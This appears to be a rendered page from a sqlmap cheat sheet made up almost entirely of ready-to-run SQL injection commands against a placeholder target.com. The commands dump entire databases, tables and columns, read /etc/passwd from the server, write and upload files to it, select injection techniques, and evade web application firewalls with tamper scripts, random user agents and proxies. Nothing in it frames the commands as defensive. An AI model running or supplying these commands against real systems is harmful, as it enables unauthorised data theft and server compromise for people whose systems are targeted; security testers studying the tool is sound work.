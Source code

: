 ## Data Extraction

### Data Dumping
```bash
# Dump entire database
sqlmap -u "http://target.com/page.php?id=1" --dump-all

# Dump specific table
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump

# Dump specific columns
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name -C col1,col2 --dump

# Dump with search criteria
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump --where="id > 100"
```

### File Operations
```bash
# Read file from server
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"

# Write file to server
sqlmap -u "http://target.com/page.php?id=1" --file-write="local.txt" --file-dest="/tmp/remote.txt"

# Upload file to server
sqlmap -u "http://target.com/page.php?id=1" --file-upload="/tmp/upload.txt"
```

## Advanced Techniques

### Custom Injection
```bash
# Specify injection parameter
sqlmap -u "http://target.com/page.php?id=1&name=test" -p "id"

# Custom injection technique
sqlmap -u "http://target.com/page.php?id=1" --technique=B

# Test specific techniques (B: Boolean, E: Error, U: Union, S: Stacked)
sqlmap -u "http://target.com/page.php?id=1" --technique=BEU

# Skip certain techniques
sqlmap -u "http://target.com/page.php?id=1" --technique=BEU --skip=U
```

### Bypass Techniques
```bash
# Random User-Agent
sqlmap -u "http://target.com/page.php?id=1" --random-agent

# Tamper scripts for WAF bypass
sqlmap -u "http://target.com/page.php?id=1" --tamper="space2comment,randomcase"

# Custom tamper script
sqlmap -u "http://target.com/page.php?id=1" --tamper="/path/to/custom.py"

# Proxy support
sqlmap -u "http://target.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
```
